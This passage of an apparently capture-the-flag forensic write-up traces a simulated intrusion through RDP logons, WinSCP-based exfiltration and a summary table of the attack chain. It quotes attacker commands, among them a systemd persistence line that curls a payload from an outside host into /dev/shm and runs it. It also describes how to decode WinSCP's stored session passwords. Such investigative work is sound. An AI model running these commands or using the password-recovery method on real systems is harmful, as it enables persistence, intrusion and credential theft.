On FS01, I filtered the `Security.evtx` for Event ID 4624 and the account `s1rx` with Logon Type 10 (RemoteInteractive), which is RDP. The first one is at 2025-12-26 04:23:02, after RDP was enabled at 04:14:10, and the `System.evtx` backs it up since it shows the `s1rx` profile being loaded at the same second. Something I thought was interesting is that the connection comes from `10.101.1.10`, which is FS01's own address, meaning the attacker came in through a tunnel on the server itself rather than directly from another machine.




**Answer:** `2025-12-26 04:23:02`

---

## Task 18
**The threat actor identified an application used by the IT team, installed it using the installer file already on the system and abused it for data exfiltration. What is the application name and version?**

To start, there's a Recycle Bin artifact with a mysterious `.msi` file, `$I2N2QAT.msi`. I tried loading it up in VirusTotal but there was no info, which makes sense in hindsight, because a `$I` file isn't the installer itself, it's just the metadata Windows keeps about a deleted file. Reading it shows the original path, `C:\Users\helpdesk.eric\Downloads\WinSCP-6.5.3.msi`, and I remembered there's a user on the IT team called `helpdesk.eric`, which fits the "application used by the IT team" part of the question.

The given artifacts weren't useful beyond that, so I decided to check `s1rx`'s `NTUSER.DAT` since that's the account the attacker was using, and sure enough there's a `Martin Prikryl\WinSCP 2` key (Martin Prikryl is the WinSCP developer). It holds `DesktopShortcut_6.5.3` and `ProgramMenuShortcut_6.5.3` values, which is where I got the version from. I put `WinSCP 6.5.3` into the answer box and it accepted. As a double check, the Uninstall key in FS01's SOFTWARE hive has `WinSCP` version `6.5.3` with an install date of 20251226, `C:\Program Files (x86)\WinSCP` was created at 04:37:56, and there's a `WinSCP.lnk` on the Public user's Desktop created a second later. All of that is the day of the attack, and it fits an IT team user's download that was already on the server and not something the attacker brought in.




**Answer:** `WinSCP 6.5.3`

---

## Task 19
**What was the full file path of the staged data that the threat actor later exfiltrated?**

For the staging I looked at what the attacker did after WinSCP was installed. The saved WinSCP session in `s1rx`'s `NTUSER.DAT` (the same one I decode in the next task) has a `LocalDirectory` of `C:\Users\Public\Downloads`, so whatever they uploaded had to come from that folder. To get the file name, I looked at the USN journal for that time. They installed 7-Zip first (`7z2501-x64.exe` in `s1rx`'s Downloads at 04:44:24), then `Backup.7z` is created at 04:45:30 in `\Users\s1rx\Documents` and renamed (moved) into `\Users\Public\Downloads` at 04:46:07. It gets moved out of that folder again at 04:49:53 (into the Recycle Bin, then deleted), which is right after the WinSCP session was used, so it looks like the attacker cleaning up after the upload.



**Answer:** `C:\Users\Public\Downloads\Backup.7z`

---

## Task 20
**What username and password did the threat actor use to authenticate to the external exfiltration server?**

I opened `s1rx`'s `NTUSER.DAT` in Registry Explorer (again with the transaction logs replayed) and went to `HKCU\Software\Martin Prikryl\WinSCP 2\Sessions\s1rx@93.121.68.219`, which is where WinSCP saves a session. It has `HostName` `93.121.68.219`, `UserName` `s1rx`, `RemoteDirectory` `/home/s1rx` and a `Password` value that's a long hex string. That's WinSCP's reversible obfuscation and not real encryption, and `UseMasterPassword` is `0` under `Configuration\Security`, so no master password protects it.

I decoded it in CyberChef with `Remove null bytes`, `From Hex` and `XOR` with the key `5C` (hex, which is the flip of WinSCP's magic byte `A3`). The output has some junk characters around it, but in the middle there's `s1rx93.121.68.219S1rx_vzNDP79yv`, which is the username, then the hostname, then the password. That makes sense, since WinSCP puts the username and hostname in front of the password before obfuscating it, so the password is `S1rx_vzNDP79yv`. The header agrees with this, the decoded bytes start with `FF 00 1F` and `0x1F` is 31, exactly the length of `s1rx93.121.68.219S1rx_vzNDP79yv`. The server's `ssh-ed25519` host key was stored at 04:42:02 (the first connection) and the session was saved at 04:47:59. The same session also shows up in WinSCP's Jump List in `s1rx`'s Recent folder.




**Answer:** `s1rx:S1rx_vzNDP79yv`

---

## Summary

| Area | Finding |
| :--- | :--- |
| Initial access | `TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk` shared over the internal chat from WKS02 and saved in `\Users\martha\Downloads` at 2025-12-26 00:43:26 UTC, a shortcut disguised as a PDF |
| Execution | The shortcut ran `curl` to pull `t.exe` from `93.121.68.102:1290` into `%TEMP%\wctBB85.exe`, an Empire Go agent with a hardcoded C2 on port 8012 |
| Credential access | Keylogger `temp.exe` (`apptsd` build) downloaded from `93.121.68.219:8908/645.exe` into `C:\Users\Public\Music`, logging to `edg698F.dat` and sending to a Discord webhook (fetched from a Pastebin page) every 1,200,000 ms |
| Credential harvesting trick | `Invoke-ProcessKiller -ProcessName "ssh"` started at 00:52:47 UTC and killed the user's SSH session to `app01`, which app01 logged at 00:52:51 UTC, forcing a re-login while the keylogger ran |
| Tunneling | Chisel as `svchosts.exe` (from `6412.exe`) with reverse forward `R:8000:10.101.1.12:22` to `93.121.68.219:8080` at 01:31:09 UTC |
| Lateral movement 1 | `app01` (`10.101.1.12`), login as `dev01` at 01:33:03 UTC through the tunnel, dwell time 230.42 minutes, `/tmp/bash` and `/tmp/sh` downloaded (01:36 and 01:50 UTC) |
| Persistence (Linux) | `systemd-journald-helper.service` with a base64 `ExecStart` that runs `curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&& chmod +x /dev/shm/.upd&& /dev/shm/.upd`, restarted every 60 seconds |
| Lateral movement 2 | `FileSrv_Admin` credentials from `/root/.smbcredentials/tridsk_backup.cred`, first logon to `DC01` at 02:04:41 UTC, Empire agent run as `update.exe` at 02:22:51 UTC |
| Defense evasion | Defender behavior monitoring and then real-time protection turned off on DC01 (02:46:34 and 02:48:44 UTC), throwaway service `f94c290` at 03:33:44 UTC |
| Backdoor account | `s1rx` created at 03:43:16 UTC and added to `Domain Admins` at 03:43:55 UTC |
| RDP | `Enable-RDP.ps1` failed on DC01, then RDP enabled on FS01 at 04:14:10 UTC, `s1rx` RDP login at 04:23:02 UTC |
| Exfiltration | WinSCP 6.5.3 installed from the IT team's `WinSCP-6.5.3.msi`, 7-Zip installed, `C:\Users\Public\Downloads\Backup.7z` uploaded to `93.121.68.219` as `s1rx` (password in the saved session), then deleted |
| Infrastructure | `93.121.68.102` (first stage, `:1290` payload and `:8012` C2), `93.121.68.219` (`:8908` payloads, `:8080` Chisel server, WinSCP target) |
| MITRE ATT&CK mapping | T1204.002 (User Execution: Malicious File), T1036.007 (Masquerading: Double File Extension), T1105 (Ingress Tool Transfer), T1059.001 (PowerShell), T1056.001 (Keylogging), T1567.004 (Exfiltration Over Webhook), T1572 (Protocol Tunneling), T1021.004 (Remote Services: SSH), T1552.001 (Credentials In Files), T1078.002 (Valid Accounts: Domain Accounts), T1543.002 (Systemd Service), T1543.003 (Windows Service), T1562.001 (Impair Defenses: Disable or Modify Tools), T1136.002 (Create Account: Domain Account), T1021.001 (Remote Desktop Protocol), T1560.001 (Archive via Utility), T1048.002 (Exfiltration Over Asymmetric Encrypted Non-C2 Protocol) |